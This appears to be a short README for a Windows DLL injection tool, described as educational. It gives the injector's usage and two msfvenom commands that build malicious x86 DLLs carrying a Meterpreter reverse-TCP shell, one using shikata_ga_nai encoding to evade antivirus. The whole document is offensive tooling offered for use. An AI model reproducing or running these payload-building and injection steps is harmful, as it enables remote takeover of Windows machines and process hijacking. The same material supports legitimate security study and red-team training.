 # DLL-Injection
simple DLL Injection; made for educational purposes<br>
<br> Usage: injection.exe \<PID\> \<DLLPath\>
### crafiting a x86 malicious DLL with sgnx86 enconding
> msfvenom -p windows/meterpreter/reverse_tcp lhost=127.0.0.1 lport=443 -a x86 --platform windows -b '\x00' -e x86/shikata_ga_nai -f dll -o dll_sgnx86.dll<br>
<br>![alt text](https://i.imgur.com/K7wLZmC.png)

### crafiting a x86 malicious DLL without enconding
> msfvenom -p windows/meterpreter/reverse_tcp lhost=127.0.0.1 lport=443 -a x86 --platform windows -f dll -o dll_x86.dll<br>
<br>![alt text](https://i.imgur.com/DN81LZr.png)
